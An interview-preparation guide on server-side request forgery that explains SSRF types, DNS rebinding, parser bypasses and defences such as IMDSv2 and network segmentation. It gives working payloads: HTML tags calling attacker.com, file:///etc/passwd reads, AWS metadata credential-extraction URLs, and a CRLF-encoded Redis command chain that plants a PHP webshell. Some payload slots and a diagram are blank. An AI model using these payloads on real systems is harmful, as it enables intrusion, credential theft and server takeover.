

# Web Security Interview Preparation: Module 05 - Server-Side Request Forgery (SSRF)

Welcome to the expert-level interview preparation guide for Server-Side Request Forgery (SSRF). This module evaluates your ability to manipulate server-side network fetching logic to pivot into internal networks, bypass firewall restrictions, and extract highly sensitive cloud metadata.

SSRF has surged in criticality, particularly in cloud environments (AWS, Azure, GCP), where a single SSRF vulnerability can result in total infrastructure compromise via instance metadata extraction. 

---

## Formal Technical Questions

### Q1: Categorize the different types of SSRF (Basic, Blind, Semi-Blind). How does the exploitation methodology change for a strictly Blind SSRF?
**Answer:**
SSRF vulnerabilities are categorized based on what data the application returns to the attacker:
- **Basic (Full Response) SSRF:** The application fetches the attacker-supplied URL and returns the complete HTTP response body directly to the user interface. This allows immediate reading of internal files or internal service dashboards.
- **Semi-Blind SSRF:** The application does not return the response body, but the response *metadata* leaks information. For example, returning different error messages or status codes depending on whether an internal port is open or closed, allowing the attacker to map the internal network.
- **Blind SSRF:** The application performs the background request but returns absolutely nothing to the user. The response is identical regardless of success or failure.
  - *Exploitation Methodology:* Blind SSRF requires Out-of-Band (OOB) techniques. I cannot read data directly. Instead, I use SSRF to map the network via time delays (requesting open vs closed ports). More importantly, I use it to exploit internal services that do not require responses, such as triggering an internal webhook, dumping data into an internal Redis instance, or achieving RCE via internal unauthenticated infrastructure (like vulnerable internal Jenkins servers).

### Q2: What is DNS Rebinding, and how does it effectively bypass Time-of-Check to Time-of-Use (TOCTOU) SSRF mitigations?
**Answer:**
DNS Rebinding is a sophisticated technique used to bypass poorly implemented SSRF filters that attempt to validate domains before fetching them.
- *The Mitigation Flaw:* An application attempts defense by resolving a user-provided URL (`http://attacker.com`), checking if the resolved IP is internal (e.g., `10.x.x.x`). If it's external, the application proceeds to fetch the URL using an HTTP client. This creates a TOCTOU race condition.
- *The Rebinding Attack:* 
  1. The attacker configures a custom DNS server for `rebind.attacker.com`.
  2. The attacker submits `http://rebind.attacker.com` to the SSRF endpoint.
  3. **Time of Check:** The application's security filter performs a DNS lookup. The attacker's DNS server responds with a safe, external IP (e.g., `8.8.8.8`) with a Time-To-Live (TTL) of 0 seconds. The filter approves the request.
  4. **Time of Use:** The application's HTTP client executes the actual fetch. Because the TTL expired instantly, the HTTP client performs a *second* DNS lookup.
  5. The attacker's DNS server now dynamically responds with the target internal IP (e.g., `127.0.0.1` or `169.254.169.254`). The HTTP client fetches the internal resource, completely bypassing the initial validation.

### Q3: How do URL parsing inconsistencies between different programming libraries lead to SSRF filter bypasses?
**Answer:**
Modern web applications often use one library to parse/validate a URL, and a completely different library to execute the HTTP request. 
- *The Flaw:* Different libraries adhere to URL RFCs differently. If the validation library parses a malformed URL one way, but the execution library parses it another way, an attacker can smuggle internal IP addresses past the filter.
- *Example:* Consider the payload `http://1.1.1.1 &@127.0.0.1# @google.com/`. 
  - The security validation library might parse the hostname as `google.com` (treating the preceding data as a complex username/password string) and approve the request.
  - The HTTP execution library (like `urllib` or `cURL`) might break at the space or `@` symbol, parsing `127.0.0.1` as the true hostname. The request is subsequently routed to the local loopback address, bypassing the filter via parsing confusion.

---

## Scenario-Based Questions

### Scenario 1: Exploiting SSRF in PDF Generators
**Prompt:** You are analyzing an application that allows users to create HTML invoices and export them to PDF. The application takes a user-supplied HTML payload, renders it on the backend, and returns the PDF. You suspect SSRF. How do you confirm and exploit this to read local server files?

**Expert Answer:**
Dynamic PDF generation using headless browsers (like Puppeteer/wkhtmltopdf) is a classic vector for SSRF and Local File Inclusion (LFI).
1. **Confirmation:** I would inject HTML tags designed to fetch external resources to my OOB server. 
   - Payloads: ``, `<link rel="stylesheet" href="http://attacker.com/ping">`, or `<iframe src="http://attacker.com/ping">`.
   - If my server receives an HTTP GET request containing the User-Agent of a backend library (like wkhtmltopdf), SSRF is confirmed.
2. **Exploitation via LFI:** Once confirmed, the goal is to read local files. I alter the URI scheme in the HTML payload from `http://` to `file://`.
   - Payload: `<iframe src="file:///etc/passwd" width="800" height="800"></iframe>` or ``
3. **Execution:** The backend headless browser parses the HTML, executes the file fetch, and embeds the contents of `/etc/passwd` directly into the generated PDF invoice. I download the PDF and visually read the server's internal files.

### Scenario 2: SSRF in AWS Cloud Infrastructure
**Prompt:** You find a parameter `?url=https://image-server.com/img.png` on an application hosted in AWS. You change the URL to `http://localhost:22` and receive a banner response confirming Basic SSRF. How do you pivot this to compromise the AWS environment?

**Expert Answer:**
In AWS environments, SSRF is the gateway to the Instance Metadata Service (IMDS). This service resides at a non-routable, link-local IP address exclusively accessible from the EC2 instance itself.
1. **Accessing IMDSv1:** I would point the SSRF payload to the IMDS IP: `?url=http://169.254.169.254/latest/meta-data/`.
2. **Enumerating IAM Roles:** I would traverse the metadata directory to find the IAM role attached to the EC2 instance: `?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/`. This returns the name of the role (e.g., `web-app-role`).
3. **Extracting Temporary Credentials:** I request the specific credentials for that role: `?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/web-app-role`. The response will dump the `AccessKeyId`, `SecretAccessKey`, and `Token`.
4. **Impact:** I configure my local AWS CLI with these stolen credentials. Depending on the permissions granted to `web-app-role` (e.g., S3 read access, EC2 provisioning), I can now interact with the target's cloud infrastructure directly, entirely bypassing the web application.

---

## Deep-Dive Defensive Questions

### D1: How does AWS IMDSv2 mitigate the severe impact of SSRF compared to IMDSv1?
**Answer:**
IMDSv1 operates on simple HTTP GET requests, making it trivial to exploit via standard SSRF. AWS introduced IMDSv2 to implement defense-in-depth via session-based authentication.
- *The Mitigation:* IMDSv2 requires the client to first issue an HTTP `PUT` request containing a specific header (`X-aws-ec2-metadata-token-ttl-seconds`) to obtain a session token. Subsequent requests for metadata must be `GET` requests that include this token in a custom header (`X-aws-ec2-metadata-token`).
- *Why it blocks SSRF:* Most SSRF vulnerabilities allow an attacker to control the URL (the GET request). Very few SSRF vulnerabilities allow the attacker to issue `PUT` requests AND arbitrarily control HTTP headers. Therefore, the attacker cannot complete the challenge-response handshake required by IMDSv2, neutralizing the threat of credential theft via standard SSRF.

### D2: As an architect, how would you implement network-level defenses to prevent SSRF vulnerabilities from accessing internal databases and services?
**Answer:**
Application-layer URL filtering is prone to bypasses (like DNS rebinding or obfuscation). Absolute SSRF defense requires network segmentation.
- **Dedicated Egress Proxies:** The application server itself should not have direct route access to the internal network or the internet. All outbound requests triggered by user input must be routed through a strictly configured Egress Proxy (like Squid).
- **Network Policies (Micro-segmentation):** Using Kubernetes Network Policies or AWS Security Groups, I would explicitly deny the web application container from routing traffic to internal IP ranges (e.g., `10.0.0.0/8`, `169.254.169.254`) unless explicitly required by a specific microservice.
- **Zero Trust Architecture:** Internal services (like Redis, Elasticsearch, databases) should require authentication (mTLS or strong credentials). Even if an attacker achieves SSRF and hits the internal Redis port, the lack of authentication prevents exploitation.

---

## Real-World Attack Scenario

### Blind SSRF to RCE via Internal Redis
During a red team engagement, I discovered a webhook registration feature that was vulnerable to Blind SSRF. It validated domains, but I bypassed it using an obscure IP format (converting `127.0.0.1` to standard integer format: `http://2130706433`). 

Because it was Blind SSRF, I couldn't read data. However, port scanning via time delays revealed that port `6379` (Redis) was open internally.

Redis uses a text-based protocol that is vulnerable to HTTP request smuggling. By crafting a URL with carriage return line feeds (CRLF - `%0d%0a`), I forced the HTTP client to send valid Redis commands. 
The payload looked like:
`http://2130706433:6379/foo%0d%0aSET%20shell%20%22%3C%3Fphp%20system%28%24_GET%5B%27c%27%5D%29%3B%3F%3E%22%0d%0aCONFIG%20SET%20dir%20%2Fvar%2Fwww%2Fhtml%0d%0aCONFIG%20SET%20dbfilename%20shell.php%0d%0aSAVE%0d%0a`

*Execution Flow:*
1. The web application's HTTP client connected to the internal Redis instance.
2. The CRLF characters broke the HTTP request structure, allowing the smuggled Redis commands to execute.
3. The commands instructed Redis to store a PHP webshell in memory, change its working directory to the webroot (`/var/www/html`), and save its database to disk as `shell.php`.
4. I navigated to `https://target.com/shell.php?c=whoami` and achieved Remote Code Execution (RCE). A strictly Blind SSRF was leveraged to fully compromise the server via an unauthenticated internal service.

---

## Custom ASCII Diagram: SSRF to Cloud Metadata Exfiltration

---

## Chaining Opportunities
SSRF is the ultimate pivot mechanism, bridging the external attack surface with the internal sanctuary:
1. **SSRF to RCE:** Reaching internal administrative panels (like Apache Tomcat Manager or Jenkins) that lack authentication because they "trust" internal traffic, allowing deployment of malicious WAR files.
2. **SSRF to Cloud Takeover:** Extracting IMDS metadata to acquire high-privileged IAM keys, allowing the attacker to pivot from web application compromise to full cloud tenant control.
3. **SSRF to Reflected XSS:** Fetching a file containing a payload (like SVG containing JS) and rendering it with an incorrect `Content-Type`, triggering execution in the victim's browser context.

---

## Related Notes
- [[09 - Cloud Security & IAM Architecture]]
- [[10 - HTTP Request Smuggling]]
- [[16 - Bypassing Network Segmentation]]
- [[20 - Protocol Smuggling (Gopher, Dict, File)]]

